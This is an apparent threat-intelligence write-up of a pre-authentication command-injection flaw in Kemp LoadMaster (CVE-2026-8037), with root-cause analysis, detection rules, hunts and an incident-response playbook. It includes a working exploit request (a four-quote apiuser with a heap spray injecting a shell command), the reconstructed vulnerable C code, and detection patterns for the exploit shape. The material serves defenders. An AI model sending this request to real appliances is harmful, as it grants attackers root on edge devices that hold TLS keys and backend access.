

# Kemp LoadMaster CVE-2026-8037: pre-auth root RCE via escape_quotes() uninitialized heap

## TL;DR

CVE-2026-8037 (CVSS 9.6) is a pre-authentication OS command-injection remote code execution flaw in the management API of Progress Kemp LoadMaster, a Layer 4/7 load balancer and Application Delivery Controller that typically sits at the network edge and terminates external TLS. A single crafted `POST /accessv2` request runs arbitrary shell commands as root, with no credentials and no user interaction. watchTowr Labs published the root-cause analysis and a working PoC on 2026-06-29; eSentire's Threat Response Unit saw in-the-wild attempts the same day, and CISA added the CVE to its Known Exploited Vulnerabilities catalog on 2026-08-07 with a BOD 26-04 remediation deadline of 2026-08-10. Exploitation to date has been opportunistic and internet-wide (KEVIntel counted 792 attempts over 41 days from 65 IPs across 18 countries) and largely unsuccessful, but the appliance's position - it holds the appliance's TLS private keys, sees the plaintext of every session it fronts, and has line-of-sight to the backend pool - makes any success load-bearing for the whole environment. This is a Thursday (supply-chain) case landing on slot #15 (edge / network appliances).

## Attribution and confidence

The exploitation is **unattributed** and best described as opportunistic, internet-wide scanning-and-exploitation rather than the work of a named cluster. eSentire attributed the observed attempts to three source IPs (192.42.116.58, 192.42.116.105, 146.70.139.154) that resolve to anonymized Tor / commercial-VPN hosting infrastructure - consistent with mass, non-targeted exploitation following a public PoC, not with a specific actor. Attribution confidence is therefore **not applicable / low** at the actor level; confidence in the **vulnerability and active exploitation** is **high** (independent corroboration from watchTowr Labs, ZDI, eSentire, KEVIntel telemetry, and the CISA KEV listing).

| Overlap dimension | Assessment | Confidence |
|---|---|---|
| Vulnerability is real and reachable pre-auth | watchTowr binary analysis + ZDI-26-342 + Progress bulletin | high |
| Active in-the-wild exploitation | eSentire TRU (from 2026-06-29) + KEVIntel (792 attempts) + CISA KEV | high |
| Specific actor / named cluster | None; anonymized Tor/VPN sources, opportunistic pattern | low |
| Post-compromise objective | Not observed in the wild yet; capability inferred from appliance position | low |

**Genealogy with previous repo cases.** This is the repo's first case on Progress Kemp LoadMaster and on CVE-2026-8037. It differs from prior edge/appliance cases: the 2026-07-09 CitrixBleed-Infinity NetScaler SAML-overread case (a memory-*disclosure* overread on a NetScaler SAML IdP) and the two SonicWall SSL-VPN cases from 2026-05-05 (Akira) and 2026-05-23 (Gen6 MFA bypass) are all edge appliances, but this is an OS *command-injection to root* built on a memory-safety composition (uninitialized heap + missing null terminator feeding `system()`), a distinct bug shape. It is adjacent to but distinct from the RMM-management-plane case `2026-08-11_StormEncryptor-Storm1175-Ncentral-RMM-Ransomware` (a KEV auth-bypass in a management server driving ransomware) - both are KEV-listed management-plane compromises, but LoadMaster is a traffic-terminating edge appliance exploited opportunistically, not an actor-driven RMM campaign.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Scan for exposed LoadMaster management interfaces | T1595.002 Active Scanning: Vulnerability Scanning | Enumerate internet-reachable `/access*` endpoints after the 2026-06-29 public PoC |
| Send crafted `POST /accessv2` | T1190 Exploit Public-Facing Application | JSON body with `apiuser` of four single quotes + heap-spray keys, no auth |
| `escape_quotes()` uninitialized buffer | T1190 Exploit Public-Facing Application | `malloc()` output buffer not zeroed; missing null terminator leaves it unterminated |
| Out-of-bounds read into sprayed heap chunk | T1190 Exploit Public-Facing Application | `__sprintf_chk` walks past the buffer, reads attacker-sprayed `'; <cmd> #` bytes |
| `system()` executes injected command as root | T1059.004 Command and Scripting Interpreter: Unix Shell | `/bin/sh -c` runs the injected command; no privilege separation on the appliance |
| Out-of-band exfil / staging | T1041 Exfiltration Over C2 Channel; T1071.001 Web Protocols | HTTP response is a benign auth failure; output leaves via file+fetch, DNS/HTTP, or reverse shell |
| Appliance secrets + backend pivot (capability) | T1552.004 Private Keys; T1040 Network Sniffing; T1505.003 Web Shell | TLS keys, plaintext sessions, backend creds; persistent Linux implant and line-of-sight to backend pool |



The diagram's left lane is the victim edge appliance: the exploitation walks from an internet-reachable `/accessv2` API, through the two `escape_quotes()` memory-safety defects, into a root `system()` call, and out to full appliance ownership and a backend pivot. The right lane is the opportunistic attacker: scan, craft the four-quote request, heap-spray `g0..g60`, trigger the injection, and exfiltrate out of band from anonymized infrastructure. The strongest detection anchors sit at the network boundary (a `POST /accessv2` whose body carries a four-quote `apiuser` and repeated same-length `g`-keys containing `'; ...#`) and on the appliance (the `access` service spawning a shell or originating new egress).

## Stage-by-stage detail

### Stage 1 - Scan for exposed LoadMaster management interfaces (T1595.002)

Because the flaw is pre-auth, the attack surface is the entire internet-facing exposure of the appliance's management port. After watchTowr's writeup and PoC went public on 2026-06-29, opportunistic scanning for `/access*` endpoints followed immediately. KEVIntel telemetry recorded 792 exploitation attempts over 41 days from 65 unique IPs in 18 countries (Australia, China, Indonesia, Japan, Poland, the U.S. and others), with the last activity on 2026-08-04. eSentire attributed observed attempts to anonymized sources:

```
192.42.116.58
192.42.116.105
146.70.139.154
```

### Stage 2 - Send crafted POST /accessv2 (T1190)

The `access` binary in the LoadMaster management stack exposes a JSON API. `POST /accessv2` processes authentication attempts against the appliance's local user database. A minimal exploitation request:

```http
POST /accessv2 HTTP/1.1
Host: loadmaster.target.example.com
Content-Type: application/json
Content-Length: 2600

{
  "apiuser": "''''",
  "apipass": "any",
  "g0":  "AAAAAAAAAAAAAAAA'; id > /tmp/pwn #",
  "g1":  "AAAAAAAAAAAAAAAA'; id > /tmp/pwn #",
  ...
  "g60": "AAAAAAAAAAAAAAAA'; id > /tmp/pwn #"
}
```

The endpoint deserializes the JSON body permissively - extra keys are accepted, not rejected - which is what makes the heap spray possible.

### Stage 3 - escape_quotes() uninitialized buffer (T1190)

`escape_quotes()` is meant to make a raw string safe to embed inside a single-quoted shell argument. It has two independent memory-safety defects. First, the output buffer is allocated with `malloc()`, which does not zero the returned memory - freed-chunk residue (attacker-influenceable bytes) remains. Reconstructed from watchTowr's disassembly of the pre-patch build:

```c
char *escape_quotes(const char *user_input) {
    size_t len = strlen(user_input);
    char *out = malloc(3 * (len + 1) + 29);   // defect 1: not zeroed
    if (!out) return NULL;
    char *end = out;
    for (const char *p = user_input; *p; p++) {
        if (*p == '\'') { *end++='\''; *end++='\\'; *end++='\''; *end++='\''; }
        else            { *end++ = *p; }
    }
    // defect 2: no *end = 0;  -> buffer left unterminated
    return out;
}
```

### Stage 4 - Missing null terminator and the out-of-bounds read (T1190)

An `apiuser` value of exactly four single quotes expands to sixteen escaped bytes that sit comfortably inside the 44-byte allocation - nothing overflows, nothing crashes. The important effect is the **missing null terminator**: after the loop writes those sixteen bytes, the buffer is left unterminated. The escaped value then flows into the command-assembly step, which treats it as a C string:

```c
char cmd[BUF_SIZE];
__sprintf_chk(cmd, ..., "validuser -b -u '%s' -p '%s'",
              escape_quotes(apiuser), escape_quotes(apipass));
system(cmd);
```

`__sprintf_chk` reads until it hits a `\0`; because the buffer is unterminated, it walks past the end and into the adjacent heap chunk. The attacker's `g0..g60` spray - all same-length strings, which cluster in the same allocator size class - makes one of those chunks land immediately after the `escape_quotes()` buffer with high probability. The first bytes `__sprintf_chk` picks up there are `AAAAAAAAAAAAAAAA'; id > /tmp/pwn #`. This is an out-of-bounds **read**, not a write.

### Stage 5 - system() executes the injected command as root (T1059.004)

The composed string becomes something like:

```
validuser -b -u ''\''\''\''\''AAAAAAAAAAAAAAAA'; id > /tmp/pwn #' -p ''
```

The single quote in the sprayed payload closes the shell single-quoted string opened by the format template; `;` starts a new command; `#` comments out the template's own tail (` -p ''`). `system()` invokes `/bin/sh -c` with the string, and the injected command runs as root - the `access` service runs as root with no privilege separation between the HTTP-facing endpoint and the subprocesses it spawns. The HTTP client sees only a normal authentication failure; the side effect happens entirely server-side.

### Stage 6 - Out-of-band exfiltration and staging (T1041, T1071.001)

Because command output is not returned in the HTTP response, the attacker exfiltrates it out of band: writing to a file that is later fetched, calling out to an attacker-controlled DNS or HTTP endpoint, or invoking a reverse-shell binary. The appliance runs a full Linux userland, so an implant dropped here survives across restarts unless the underlying firmware image is rebuilt.

### Stage 7 - Appliance secrets and backend pivot (capability: T1552.004, T1040, T1505.003)

Root on the LoadMaster is a load-bearing security boundary. The attacker inherits the appliance's TLS private-key material, the plaintext of every session it terminates, and any credentials configured for backend health probes, LDAP binds, or upstream authentication. The appliance's network position - internal to the perimeter, on the management VLAN, with pre-established connectivity to every server in its backend pool - is what defenders call post-exploitation gold. **eSentire observed no post-compromise activity in the wild**, so these stages are described as capability inferred from the appliance's position, not confirmed observations; they are exactly what the H2 and H3 hunts and the IR playbook proactively look for.

## RE notes

| Component | SHA256 | Lang | Packer | Notes |
|---|---|---|---|---|
| `access` (LoadMaster mgmt API binary) | n/a (vendor ELF, no public sample hash) | C | none (statically linked, modified glibc) | Persistent root service; handles `/access`, `/accessv2`, `/accessv3`; `escape_quotes()` is the vulnerable sanitizer; `system()` is the sink |

**The composition is the story.** Neither defect is exploitable alone: `malloc()` returning uninitialized memory is uncomfortable but not directly abusable, and a missing null terminator on a buffer used only by length-aware code is a latent bug that never fires. It is the composition - an unterminated buffer whose next-heap-chunk neighbor is attacker-controlled, read as a C string by `sprintf`, whose output is executed by `system()` - that produces the RCE. Defenders should look for the same shape in adjacent code: any C function that returns a buffer without an explicit null terminator whose caller invokes a length-agnostic string operation is a candidate.

**Patch diff (GA 7.2.63.2 / LTSF 7.2.54.18).** The fix is two lines plus a sizing correction: `malloc(3*(len+1)+29)` becomes `calloc(1u, 4*(len+1)+28)` (zero-fills the buffer, closing the uninitialized-read at the source, and the 4x multiplier accommodates worst-case all-quote input), and an explicit `*end = 0;` is added after the escape loop (terminates the buffer so length-agnostic callers stop at the correct boundary). The patch does **not** remove the `escape_quotes -> sprintf -> system` pipeline; the durable fix is architectural - spawn subprocesses with `execve()`/`posix_spawn()` and an `argv[]` array so no shell string is ever built.

## Detection strategy

### Telemetry that matters

- **Network / perimeter (primary):** request URI and body for the LoadMaster management interface, ideally from a TLS-terminating WAF or reverse proxy in front of it (the management API is normally TLS, so a raw IDS may only see ciphertext). Perimeter NetFlow / IDS for connections *to* the management port and, post-exploit, new egress *from* the appliance IP.
- **Appliance host telemetry:** the LoadMaster runs a Linux userland; where auditd or Sysmon for Linux is deployed (or the appliance forwards syslog), `process_creation`, `file_event`, and `network_connection` for the `access` service are high-value. Note that many appliances ship without host EDR - the network boundary is the dependable surface.
- **Defender XDR (if onboarded):** `DeviceProcessEvents`, `DeviceNetworkEvents` for the appliance or the virtual host running it.
- **Sentinel:** `CommonSecurityLog` (CEF from a WAF/proxy), `Syslog` (LoadMaster-forwarded logs).

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | `sigma/proc_loadmaster_access_spawns_shell.yml` | `access` service as parent of `sh`/`bash`/`dash` (should never fork a shell) |
| Sigma | `sigma/net_loadmaster_access_outbound.yml` | Outbound connection initiated by the `access` service to a non-internal destination |
| Sigma | `sigma/file_loadmaster_access_drops_file.yml` | `access` service writing under `/tmp`, `/var/tmp`, or `/dev/shm` |
| KQL | `kql/accessv2_exploit_request_commonseclog.kql` | `POST /accessv2` in WAF/proxy logs with four-quote `apiuser` or spray/injection markers |
| KQL | `kql/loadmaster_appliance_new_egress.kql` | New public egress from the appliance device, flags known exploitation IPs |
| KQL | `kql/loadmaster_access_spawns_shell.kql` | `access` process spawning a shell (MDE for Linux) |
| YARA | `yara/kemp_loadmaster_cve_2026_8037.yar` | Captured exploitation request (rule 1) and public PoC/exploit tooling (rule 2) |
| Suricata | `suricata/kemp_loadmaster_cve_2026_8037.rules` | 5 sids: four-quote body, spray body, source-IP reputation, oversized spray shape, appliance egress heuristic |

### Threat hunting hypotheses

- **H1 - `hunts/peak_h1_accessv2_exploitation_attempts.md`:** opportunistic actors are sending crafted `POST /accessv2` requests to exposed LoadMaster / MOVEit WAF management interfaces; evidence is a four-quote `apiuser` plus repeated same-length `g`-keys containing `'; <cmd> #` in proxy/WAF logs.
- **H2 - `hunts/peak_h2_appliance_post_exploit.md`:** an attacker with pre-auth root is staging output, egress, or persistence on the appliance; evidence is the `access` service spawning a shell, new files under `/tmp`, and new outbound from the appliance IP.
- **H3 - `hunts/peak_h3_credential_and_backend_fallout.md`:** an attacker is reusing the appliance's harvested secrets and network position to reach the backend pool; evidence is appliance-configured credentials authenticating from new sources and the appliance IP making non-baseline connections into backends.

## Incident response playbook

### First 60 minutes (triage)

1. Inventory every LoadMaster / MOVEit WAF instance and determine which had a management interface reachable from untrusted networks at any point since 2026-06-04 (disclosure). Treat each as potentially compromised regardless of alerting.
2. Confirm version against the fixed builds (GA 7.2.63.2, LTSF 7.2.54.18; MOVEit WAF 7.2.63.2). Anything at or below GA 7.2.63.1 / LTSF 7.2.54.17 is vulnerable.
3. Restrict the management interface to a trusted management network immediately (ACL / firewall), independent of patch status.
4. Pull WAF/proxy logs and appliance syslog for `POST /accessv2` and grep for four-quote `apiuser` and `g`-key spray shapes; note source IPs.
5. On any appliance with a matching request (or unexplained management-plane behavior), assume root compromise and move to eradication - do not trust the appliance's own logs to prove it clean ("no alert fired" is not evidence of no exploitation).

### Artifacts to collect

| Artifact | Path | Tool | Why |
|---|---|---|---|
| Management request logs | WAF/proxy access logs; appliance syslog | Log platform / SIEM | Exploitation requests to `/accessv2` and the spray shape |
| Appliance process/file/network telemetry | auditd / Sysmon for Linux (if present) | osquery / EDR | `access` -> shell, `/tmp` drops, new egress |
| Running state | appliance shell (if console access) | `ps`, `ss -tunp`, `ls -la /tmp /dev/shm`, `crontab -l` | Live implant, listeners, staged output |
| Persistence surface | startup units, cron, `authorized_keys` | diff vs known-good image | Reboot-surviving implant |
| Credential/key inventory | appliance config | vendor UI / config export | Scope TLS keys and backend/LDAP creds for rotation |
| NetFlow for appliance IP | perimeter / firewall | flow platform | Egress and backend pivot |

### IR queries and commands

```bash
# On the appliance (if console/SSH access): live triage
ps auxww | grep -E '/access|/bin/sh' | grep -v grep
ss -tunp | grep -vE ':(443|80|8443)\b'          # unexpected listeners / egress
ls -la /tmp /var/tmp /dev/shm 2>/dev/null        # staged output (e.g. /tmp/pwn)
grep -rIl "/accessv2" /var/log 2>/dev/null       # exploitation requests in local logs
```

```powershell
# From a jump host: check which LoadMaster mgmt interfaces answer on the API port
$targets = Get-Content .\loadmaster_hosts.txt
foreach ($t in $targets) {
  $r = Test-NetConnection -ComputerName $t -Port 443 -WarningAction SilentlyContinue
  "{0},{1}" -f $t, $r.TcpTestSucceeded
}
```

```kql
// Sentinel: exploitation requests to /accessv2 (WAF/proxy CEF)
CommonSecurityLog
| where RequestMethod == "POST" and RequestURL has "/accessv2"
| where AdditionalExtensions has "apiuser"
| where AdditionalExtensions has "''''" or AdditionalExtensions matches regex @"'\s*;.*#"
| project TimeGenerated, SourceIP, DestinationHostName, RequestURL
```

### Containment, eradication, recovery

- **Contain:** restrict the management interface to a trusted network; if compromise is suspected, isolate the appliance from both the internet and the backend pool.
- **Eradicate:** do not attempt to "clean" a suspected-compromised appliance in place - rebuild from a known-good firmware image at a fixed version. A Linux implant here survives restarts; only an image rebuild is trustworthy.
- **Rotate after eradication:** revoke and reissue the appliance's external TLS certificates and rotate every credential it held (backend health-probe accounts, LDAP bind DNs, API tokens). **What NOT to do: do not rotate credentials before the appliance is rebuilt and confirmed clean** - a resident implant will simply re-capture the new secrets.
- **Recover:** restore the rebuilt appliance to service only behind a restricted management network, patched to GA 7.2.63.2 / LTSF 7.2.54.18 or later.

### Recovery validation

- Confirm the appliance version is at or above the fixed build and the management interface is no longer internet-reachable.
- Verify no `access` -> shell events, no unexpected files under `/tmp`/`/dev/shm`, and no non-baseline egress from the appliance IP over a monitoring window.
- Confirm rotated credentials and reissued certificates are in use and that the old ones are revoked and not authenticating anywhere.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| cve | CVE-2026-8037 | Pre-auth OS command injection RCE via `/accessv2` (`escape_quotes` -> `system()`), CVSS 9.6, on CISA KEV | high | watchTowr / eSentire / CISA |
| cve | CVE-2026-33691 | Companion issue in the same June 2026 Progress bulletin | medium | Progress bulletin |
| ipv4 | 192.42.116.58 | Exploitation source IP (anonymized Tor-range); decays | medium | eSentire TRU |
| ipv4 | 192.42.116.105 | Exploitation source IP (anonymized Tor-range); decays | medium | eSentire TRU |
| ipv4 | 146.70.139.154 | Exploitation source IP (VPN/commercial hosting); decays | medium | eSentire TRU |
| path | /accessv2 | Vulnerable management API endpoint | high | watchTowr / SecureLayer7 |
| string | `''''` | Four-quote `apiuser` primitive (unterminated buffer) | high | SecureLayer7 / watchTowr |
| string | escape_quotes | Vulnerable sanitizer function | high | watchTowr |
| string | validuser -b -u | Command template passed to `system()` | medium | SecureLayer7 |

**CISA KEV status:** CVE-2026-8037 was added to the CISA Known Exploited Vulnerabilities catalog on **2026-08-07**, with a BOD 26-04 federal remediation deadline of **2026-08-10**. It is not (as of writing) flagged with a known ransomware association, but is under active, opportunistic exploitation. Being on KEV makes patching to GA 7.2.63.2 / LTSF 7.2.54.18 a patch-now priority; see `kev.md` for the machine-generated cross-reference. Full indicator list in `iocs.csv`.

## Secondary findings

- **The appliance IP addresses decay, the request shape does not.** The three eSentire source IPs are anonymized Tor/VPN infrastructure and rotate quickly, so they are low-durability blocklist entries. The durable detection is the exploitation *shape* - a `POST /accessv2` with a four-quote `apiuser` and a wall of same-length `g`-keys containing `'; <cmd> #` - which any WAF/IDS can match regardless of source.
- **MOVEit WAF shares the vulnerable code.** Progress's bulletin lists MOVEit WAF (all versions before GA 7.2.63.2) as affected alongside LoadMaster, so organizations that deployed MOVEit's WAF have the same exposure even if they never bought a standalone LoadMaster. Inventory both product names.
- **"No alert" is not "no exploitation."** eSentire's observed attempts were largely unsuccessful and produced no post-compromise activity, but because the exploit's HTTP response is always a benign auth failure and command output leaves out of band, absence of an alert on the appliance is not evidence it was not exploited. Any appliance exposed during the window must be scoped, not assumed clean.

## Pedagogical anchors

- **Two harmless bugs can compose into an RCE.** An uninitialized `malloc()` and a missing null terminator are each individually latent; it is the pipeline (unterminated buffer -> length-agnostic `sprintf` -> `system()`) that fires. Audit for the *shape*, not just for each defect.
- **The durable fix is not a better sanitizer - it is not building a shell string at all.** `execve(argv=["validuser","-b","-u",user,"-p",pass])` cannot have this CVE; patching one `escape_quotes()` still leaves adjacent surface where the same pattern can recur.
- **Edge appliances are traffic terminators, so RCE on them is worse than RCE on a random host.** A LoadMaster holds TLS private keys, sees session plaintext, and fronts the backend pool; one pre-auth request collapses "internet scan" to "root on the traffic terminator with line-of-sight to internal services."
- **Pre-auth means the whole management port is the attack surface.** Restrict management interfaces to trusted networks as a standing control - it is the mitigation that holds independent of any single CVE.
- **On KEV = patch-now, and eradicate before you rotate.** A KEV listing is a federal deadline, not a data point; and on a compromised appliance, rebuild from a known-good image *before* rotating credentials, or an implant re-harvests the new secrets.

## What's in this folder

| File | Purpose | Link |
|---|---|---|
| README.md | This write-up. | [README.md](./README.md) |
| kill_chain.svg | Two-lane kill-chain diagram (victim appliance vs opportunistic attacker). | [kill_chain.svg](./kill_chain.svg) |
| sigma/proc_loadmaster_access_spawns_shell.yml | `access` service spawning a shell. | [proc_loadmaster_access_spawns_shell.yml](./sigma/proc_loadmaster_access_spawns_shell.yml) |
| sigma/net_loadmaster_access_outbound.yml | Unexpected outbound from the `access` service. | [net_loadmaster_access_outbound.yml](./sigma/net_loadmaster_access_outbound.yml) |
| sigma/file_loadmaster_access_drops_file.yml | `access` service writing to transient paths. | [file_loadmaster_access_drops_file.yml](./sigma/file_loadmaster_access_drops_file.yml) |
| kql/accessv2_exploit_request_commonseclog.kql | `/accessv2` exploitation request in WAF/proxy logs. | [accessv2_exploit_request_commonseclog.kql](./kql/accessv2_exploit_request_commonseclog.kql) |
| kql/loadmaster_appliance_new_egress.kql | New public egress from the appliance device. | [loadmaster_appliance_new_egress.kql](./kql/loadmaster_appliance_new_egress.kql) |
| kql/loadmaster_access_spawns_shell.kql | `access` process spawning a shell (MDE for Linux). | [loadmaster_access_spawns_shell.kql](./kql/loadmaster_access_spawns_shell.kql) |
| yara/kemp_loadmaster_cve_2026_8037.yar | Exploitation-request and PoC-tooling signatures. | [kemp_loadmaster_cve_2026_8037.yar](./yara/kemp_loadmaster_cve_2026_8037.yar) |
| suricata/kemp_loadmaster_cve_2026_8037.rules | 5 network rules for the exploit shape and appliance egress. | [kemp_loadmaster_cve_2026_8037.rules](./suricata/kemp_loadmaster_cve_2026_8037.rules) |
| hunts/peak_h1_accessv2_exploitation_attempts.md | PEAK hunt: exploitation attempts against `/accessv2`. | [peak_h1_accessv2_exploitation_attempts.md](./hunts/peak_h1_accessv2_exploitation_attempts.md) |
| hunts/peak_h2_appliance_post_exploit.md | PEAK hunt: post-exploitation on the appliance. | [peak_h2_appliance_post_exploit.md](./hunts/peak_h2_appliance_post_exploit.md) |
| hunts/peak_h3_credential_and_backend_fallout.md | PEAK hunt: credential exposure and backend pivot. | [peak_h3_credential_and_backend_fallout.md](./hunts/peak_h3_credential_and_backend_fallout.md) |
| iocs.csv | Machine-readable indicators. | [iocs.csv](./iocs.csv) |
| kev.md | CISA KEV cross-reference for this case's CVEs. | [kev.md](./kev.md) |

## Sources

- [watchTowr Labs - Enterprise Tech, In Shell Out: Progress Kemp LoadMaster Uninitialized Heap to Pre-Auth RCE (CVE-2026-8037)](https://labs.watchtowr.com/enterprise-tech-in-shell-out-progress-kemp-loadmaster-uninitialized-heap-to-pre-auth-rce-cve-2026-8037/)
- [SecureLayer7 - CVE-2026-8037: Progress Kemp LoadMaster Pre-Auth Root RCE](https://blog.securelayer7.net/cve-2026-8037-progress-loadmaster-rce/)
- [eSentire - Progress Kemp LoadMaster Vulnerability Targeted (CVE-2026-8037)](https://www.esentire.com/security-advisories/progress-kemp-loadmaster-vulnerability-targeted-cve-2026-8037)
- [The Hacker News - Progress Kemp LoadMaster Flaw Hits CISA KEV After 792 Reported Exploit Attempts](https://thehackernews.com/2026/08/progress-kemp-loadmaster-flaw-hits-cisa.html)
- [CISA - Adds One Known Exploited Vulnerability to Catalog (2026-08-07)](https://www.cisa.gov/news-events/alerts/2026/08/07/cisa-adds-one-known-exploited-vulnerability-catalog)
- [Zero Day Initiative - ZDI-26-342](https://www.zerodayinitiative.com/advisories/ZDI-26-342/)
- [Progress Community - LoadMaster Critical Security Bulletin June 2026 (CVE-2026-8037, CVE-2026-33691)](https://community.progress.com/s/article/LoadMaster-Critical-Security-Bulletin-June-2026-CVE-2026-8037-CVE-2026-33691)
- [SecurityWeek - CISA Urges Immediate Patching of Exploited Progress LoadMaster Vulnerability](https://www.securityweek.com/cisa-urges-immediate-patching-of-exploited-progress-loadmaster-vulnerability/)
